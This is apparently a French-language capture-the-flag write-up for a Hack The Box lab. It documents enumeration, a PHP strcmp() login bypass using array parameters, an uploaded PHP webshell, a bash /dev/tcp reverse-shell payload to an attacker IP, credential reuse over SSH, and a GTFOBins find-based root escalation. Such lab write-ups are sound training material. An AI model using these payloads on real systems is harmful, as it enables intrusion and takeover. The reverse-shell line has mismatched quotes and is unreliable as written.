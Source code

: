## Lab Title: Meow
- Date: 2025-10-02
- Duration: ~120 minutes

### Platform: HTB – Starting Point > Tier 2

### 1. Scenario Summary
1. Une exploitation de la fonction: **STRCMP()**
2. Utilisation de l'outil: **Burp Suite** pour modifier les paquets: `POST, GET`
3. **Living Off The Land** Technique pour Linux OS avec **GTFOBins**

### 2. Findings
**Enumeration**
1. Comme d'habitude, on commence avec `nmap` pour trouver les port ouverts:
    - Et on a trouvé que deux ports sont ouverts: `22,80`:
    ```code
        22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
        80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
        Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    ```
2. Quand on a analysé le site Web: `http://10.129.23.23:80` >> on a trouvé `la page de login`:
    - `/login/login.php`

3. Après, on a analysé le dossier:`/login` >> `http://10.129.23.23/login`. Et on a trouvé trois fichiers dans ce dossier: `/login`
    ```code
        config.php
        login.php
        login.php.swp
    ```
4.  Après, on connaît que `login.php.swp` peut-être sauver quelque chose d'intéressant pour nous
    - On fait ça pour télécharger ce fichier: `curl http://$ip/login/login.php.swp --output login.php.swp`

5. Quand on a examiné ce fichier, on a trouvé que la fonction **strcmp()** a été utilisé sur le `backend` de comparer les valeurs: `username et password`
    - `if (strcmp($username, $_POST['username']) == 0)`

6. Après, on fait `dir enumeration: brute forcing` par **gobuster**:
    - Avec cet outil, le défi est de choisir `wordlists` une base des mots: `/wordlists/dirb/big.txt` est le meilleur.
    - `sudo gobuster dir -u http://$ip:80 -w /usr/share/wordlists/dirb/big.txt`
    - On a obtenu ces résultats:
    ```code
        /.htaccess            (Status: 403) [Size: 278]
        /.htpasswd            (Status: 403) [Size: 278]
        /_uploaded            (Status: 301) [Size: 318] [--> http://10.129.95.184/_uploaded/]
        /assets               (Status: 301) [Size: 315] [--> http://10.129.95.184/assets/]
        /forms                (Status: 301) [Size: 314] [--> http://10.129.95.184/forms/]
        /login                (Status: 301) [Size: 314] [--> http://10.129.95.184/login/]
    ```
    - Parmi ces dossiers, on connaît que `/_uploaded` est potentiellement utilisé pour stocker les fichiers.

7. Pour faire un login, on doit faire `interception` avec **Burp Suite**.
    - Ici, on connaît que **strcmp()** fonction est vulnérable car il utilise `==` pour vérifier la valeur:
    - Comme: `value == 0` >> ici, si `value > NULL` il considere cela comme **correcte**
    - Donc, on essai modifier ce comportement:
        - D'abbord, on faire `interception` dans **Burp Suite** quand on fait `login` avec les données aléatoires.
        - Et on fait ça:
            ```code
                username=admin&password=mypassword
                //change
                username[]=admin&password[]=mypassword
        ```
        - Maintenant, quand `strcmp()` exécute cela, ce variable est `array` et vide >> donc il renvoie **NULL** valeur, qui est égale `NULL == 0`
        - Voilà, il fait `successful login`

**Foothold:**
9. Après, on a obtenu un accèss à la page: `upload.php`
    - On peut télécharger un fichier et il est exécuté
    - On crée `webshell.php`:
    ```code
        <?php echo system($_REQUEST['cmd']); ?>
    ```
    - On connaît que ce fichier est stocké dans cette location: `/_uploaded/webshell.php`
    - Avec cela, on obtient `webshell` sur le site: `http://10.129.23.23/_uploaded/webshell.php?cmd=whoami`
        - Il nous donne la résultat: `www-data`.

    - À ce moment-là, on fait `interception` par **Burp Suite** a fin de modifier le paquet et d'avoir `reverse shell`.
        - C'est `GET` methode on change la à `POST` dans **Burp Suite** >> `Change request method`
        - Après, on modifie le **paquet POST**: avec ce payload:
        ```code
            cmd=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.25/443' 0>&1'

            0 = stdin
            1 = stdout
            2 = stderr
        ```
        - Ici, `>&` >> cela envoie tous les `output` et `error` à ce **TCP Socket**
        - Et, `0>&1` >> ici, `input` prend une duplicate de `output >>>>> &1` qui, l'attaquant envoie
        - Donc, comme ça, reverse shell fonctionne bien
    - Après, avant d'envoyer le paquet POST, on fait `URL Encoding` >> on fait une sélection ce code
        et appuyer `Ctrl+U` >> il fait **URL Encoding** pour notre commande.
    - On fait `listener` >> `nc -lvnp 443`

**Lateral Movement:**
10. Quand on obtient le `reverse shell`,
    - On a trouvé le fichier: `/var/www/html/login/config.php` et là-bas, il y une `password`
        ```code
            username=admin;
            password=thisisagoodpassword;
        ```
        - Et on a trouvé que il y a un utilisateur: `john` >> `ls /home`, donc ce `password` fonctionne bien avec cet utilisateur.

    - On connaît que `22` est ouvert et ça veut dire que on peut utiliser `ssh`
        - `ssh john@10.129.23.23` et le mot de passe qui on a obtenu >> ça marche bien!
    - On a trouvé le drapeau: `/home/john/user.txt`

**Privilege Escalation:**
11. On a besoin des privilèges de **root**. Donc, on teste les privilèges de l'utilisateur actuel: *john* avec cette commande:
    - `sudo -l` >> et on a trouvé que il peut exécuter `/usr/bin/find` avec **les privilèges de root**
    - Donc, maintenant, notre systeme d'exploitation est Linux >> donc on peut utiliser la
        technique: **Living Off The Land** >> pour Linux, il s'appele:
        - **GTFOBins** >> **liste organiséé de binaires Unix qui peuvent être utilisés pour contourner les restrictions de sécurité locales dans les systèmes mal configurés**
    - Dans cette base, on cherche `find` et trouve cette information:
        ```code
            find . -exec /bin/bash \; -quit
        ```
    - Ici, `-exec` switch est utilisé pour exécuter les commandes
    - Ce process est exécuté avec les privilèges **root** >> tout ce qu'il exécute est commencé avec les privilèges root
    - ça veut dire que `/bin/bash` est exécuté avec les **privilèges de root**.

12. Voilà, on a trouvé le fichier: `/root/root.txt` et ça y est, c'est fini!

### 3. Idea
1. Foothold >> avec une fonction: `strcmp()` >> par `Burp Suite`
2. `Command Execution in URL` avec `PHP` et Après obtenir `reverse shell` en utilisant **Burp Suite**
3. Reverse Shell Payload >> `cmd=/bin/bash -c 'bash -i >& /dev/tcp/ATTAQUANT_IP/PORT' 0>&1`
4. **GTFOBins** pour faire une exploitations avec les **privilèges de l'utilisateur: root**

